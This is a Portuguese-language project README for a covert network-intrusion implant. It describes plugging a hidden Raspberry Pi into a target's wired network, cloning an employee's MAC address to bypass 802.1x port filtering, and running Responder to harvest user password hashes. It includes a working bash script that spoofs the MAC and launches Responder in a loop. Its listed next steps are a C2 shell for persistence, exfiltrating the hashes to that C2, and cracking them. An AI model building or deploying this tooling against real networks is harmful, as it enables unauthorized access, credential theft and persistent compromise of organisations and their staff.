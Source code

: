 # Projeto

O Objetivo desse projeto visa realizar de forma "automatizada" e "stealth" o bypass de NAC 802.1x PNAC (Filtro de MAC) e iniciar quaisquer scripts/exploits/ferramentas ao ingressar dentro da rede alvo, utilizando ferramentas como RaspberryPI e um Switch de rede, ambos de fácil acesso para compra.

No cenário proposto, um atacante utilizará a ferramenta + scripts contruidos para realizar o ataque de forma automatizada. Ao obter acesso local aos cabos de rede referente a rede alvo, basta plugar um computador de um colaborador no switch para clonar seu MAC, e depois o mesmo ingresará na rede, assim rodando as automações. Em sequência é recomendável que o device seja escondido equanto estiver conectado ao cabo de rede, para que permaneça na rede realizando os ataques.

Para o caso atual, a ferramenta a ser ativada sera o "Responder", o qual terá função de coletar Hashes de usuários na rede e exfiltra-los para um servidor externo (C2).

# Equipamentos

## V1 - RaspberryPi3
* Raspberry PI (recomendável PI3 1GB RAM)
* 1 Cabo microUSB/USB-C (Depende do RaspberryPI)
* Tela Touch RaspberryPI (Recomendável/Não Obrigatório)
* 1 PowerBank (Pequeno)
* Teclado Bluethooth (Recomendável/Não Obrigatório)

## V2 - Pwnagotchi
https://pwnagotchi.ai/
* UPS Lite V1.2 Poder HAT Board (Bateria)
* RaspberryPI ZeroW Dev Board(Solded)
* RaspberryPI ZeroW Ethernet HUB, HUB USB... (Inputs)
* E-Ink Display HAT (Screen)
* Adaptador Wi-FI - USB (SSH)

## Geral
* Switch de rede
* Conversor de energia do Switch para USB
* 2 Cabos de Rede RJ45 (Pequenos/Retrateis) 1metro
* Adaptador RJ45-USB
* 
# Etapas:

## Setup Raspberry
- [ ] kali ISO: https://www.kali.org/docs/arm/raspberry-pi-3/
- [ ] kali LCD Screen
- [ ] Responder as a Service: https://github.com/eep0x10/runAs.service/tree/main
- [ ] Scripts:


start_resp.sh
```
# Reset MAC Address Random
#sudo ifconfig eth1 hw ether $(ethtool -P eth1 | awk '{print $3}') 1>&-

while true;do
echo "[+] Capturando MAC Address, aguarde 10 segundos..."

echo "" > /tmp/captured_mac.txt

sudo tshark -i eth1 -Y "_ws.col.protocol matches \"IGMPv3\"" -T fields -e eth.src -a duration:10 2>&- | sort -u > /tmp/captured_mac.txt
echo "64:1c:67:e6:d8:a0" > /tmp/captured_mac.txt
# Caminho do arquivo de onde ler o valor
arquivo="/tmp/captured_mac.txt"
valor=$(cat "$arquivo" | tr -d '[:space:]')
# Executa o comando macchanger com o valor lido do arquivo
sudo macchanger -m "$valor" eth1 2>&- # Substitua "eth1" pela interface de rede desejada

cd /usr/share/responder
sudo python3 automation.py
done
```

resp-onder.sh
```
cd /usr/share/responder
sudo python3 /usr/share/responder/automation.py
```

# Next Steps
- [ ] Enviar uma shell para o C2, a fim de ter pesistência e controle remoto do dispositivo
- [ ] Exfiltrar hashes para o C2
- [ ] Quebrar os hashes de forma automatizada
- [ ] Notificar o atacante ao realizar uma quebra de hashe
- [ ] Enumerar permissões do hashe obtido*
